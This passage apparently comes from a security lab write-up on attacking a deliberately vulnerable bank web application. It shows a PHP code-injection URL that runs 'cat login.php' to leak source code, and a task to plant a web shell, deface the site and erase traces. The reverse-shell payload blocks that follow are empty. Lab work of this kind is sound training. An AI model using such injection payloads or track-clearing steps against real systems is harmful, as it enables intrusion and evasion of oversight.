 \begin{itemize}
  \begin{itemize}
  \tightlist
  \item
    Application URL
    \texttt{javascript\ \ \ \ \ \ \ http://192.168.37.128/htdocs/index.php?account=173105291page=htbdetails\ \ \ \ \ \ \ \&query=\%27.+system\%28\%22cat+login.php\%22\%29+.\%27\&submit=Submit+Query}
  \item
    \textbf{Result} \includegraphics{images/task2/leak_source_2.PNG}
  \end{itemize}
\end{itemize}

\textbf{7. Suppose you are an anonymous attacker: a) Upload a web shell
on the victim server and show that you can take control of the server.
b) Deface the main bank page. c) Clear possible traces that could lead
to you.} \textbf{solution :}

\textbf{a}). Used \texttt{netcat} for creating a reverse connection from
victim machine - payload used:

\begin{Shaded}
\begin{Highlighting}[]
\end{Highlighting}
\end{Shaded}

\begin{itemize}
\tightlist
\item
  On attcker machine (listen on corresponding port - 1234),
\end{itemize}

\begin{Shaded}
\begin{Highlighting}[]
    \ExtensionTok{$}
\end{Highlighting}
\end{Shaded}

